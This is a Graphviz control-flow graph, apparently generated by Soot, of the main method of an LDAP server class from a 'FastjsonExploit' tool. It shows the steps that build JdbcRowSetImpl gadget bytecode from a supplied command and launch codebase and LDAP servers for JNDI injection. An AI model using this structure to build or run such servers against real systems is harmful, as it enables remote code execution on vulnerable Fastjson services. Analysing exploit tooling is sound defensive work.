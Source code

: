 digraph "unitGraph" {
    "r0 := @parameter0: java.lang.String[]"
    "$i0 = lengthof r0"
    "if $i0 == 3 goto $r1 = r0[2]"
    "$r8 = <java.lang.System: java.io.PrintStream out>"
    "virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"Usage: java -cp FastjsonExploit-<version>.jar server.LDAPServer ldap_host ldap_port [cmd/code]\")"
    "staticinvoke <java.lang.System: void exit(int)>(0)"
    "$r1 = r0[2]"
    "$r2 = staticinvoke <gadget.Gadget: byte[] getJdbcRowSetImplExpCode(java.lang.String)>($r1)"
    "<util.Common: byte[] byteCode> = $r2"
    "r3 = r0[0]"
    "$r4 = r0[1]"
    "$r5 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(java.lang.String)>($r4)"
    "i1 = virtualinvoke $r5.<java.lang.Integer: int intValue()>()"
    "i2 = staticinvoke <util.Util: int getUnusePort(java.lang.String)>(r3)"
    "staticinvoke <server.CodebaseServer: void lanuchCodebaseURLServer(java.lang.String,int)>(r3, i2)"
    "$r6 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i1)"
    "$r7 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2)"
    "staticinvoke <server.LDAPServer: void lanuchLDAPServer(java.lang.Integer,java.lang.String,java.lang.Integer)>($r6, r3, $r7)"
    "return"
    "r0 := @parameter0: java.lang.String[]"->"$i0 = lengthof r0";
    "$i0 = lengthof r0"->"if $i0 == 3 goto $r1 = r0[2]";
    "if $i0 == 3 goto $r1 = r0[2]"->"$r8 = <java.lang.System: java.io.PrintStream out>";
    "if $i0 == 3 goto $r1 = r0[2]"->"$r1 = r0[2]";
    "$r8 = <java.lang.System: java.io.PrintStream out>"->"virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"Usage: java -cp FastjsonExploit-<version>.jar server.LDAPServer ldap_host ldap_port [cmd/code]\")";
    "virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"Usage: java -cp FastjsonExploit-<version>.jar server.LDAPServer ldap_host ldap_port [cmd/code]\")"->"staticinvoke <java.lang.System: void exit(int)>(0)";
    "staticinvoke <java.lang.System: void exit(int)>(0)"->"$r1 = r0[2]";
    "$r1 = r0[2]"->"$r2 = staticinvoke <gadget.Gadget: byte[] getJdbcRowSetImplExpCode(java.lang.String)>($r1)";
    "$r2 = staticinvoke <gadget.Gadget: byte[] getJdbcRowSetImplExpCode(java.lang.String)>($r1)"->"<util.Common: byte[] byteCode> = $r2";
    "<util.Common: byte[] byteCode> = $r2"->"r3 = r0[0]";
    "r3 = r0[0]"->"$r4 = r0[1]";
    "$r4 = r0[1]"->"$r5 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(java.lang.String)>($r4)";
    "$r5 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(java.lang.String)>($r4)"->"i1 = virtualinvoke $r5.<java.lang.Integer: int intValue()>()";
    "i1 = virtualinvoke $r5.<java.lang.Integer: int intValue()>()"->"i2 = staticinvoke <util.Util: int getUnusePort(java.lang.String)>(r3)";
    "i2 = staticinvoke <util.Util: int getUnusePort(java.lang.String)>(r3)"->"staticinvoke <server.CodebaseServer: void lanuchCodebaseURLServer(java.lang.String,int)>(r3, i2)";
    "staticinvoke <server.CodebaseServer: void lanuchCodebaseURLServer(java.lang.String,int)>(r3, i2)"->"$r6 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i1)";
    "$r6 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i1)"->"$r7 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2)";
    "$r7 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2)"->"staticinvoke <server.LDAPServer: void lanuchLDAPServer(java.lang.Integer,java.lang.String,java.lang.Integer)>($r6, r3, $r7)";
    "staticinvoke <server.LDAPServer: void lanuchLDAPServer(java.lang.Integer,java.lang.String,java.lang.Integer)>($r6, r3, $r7)"->"return";
}
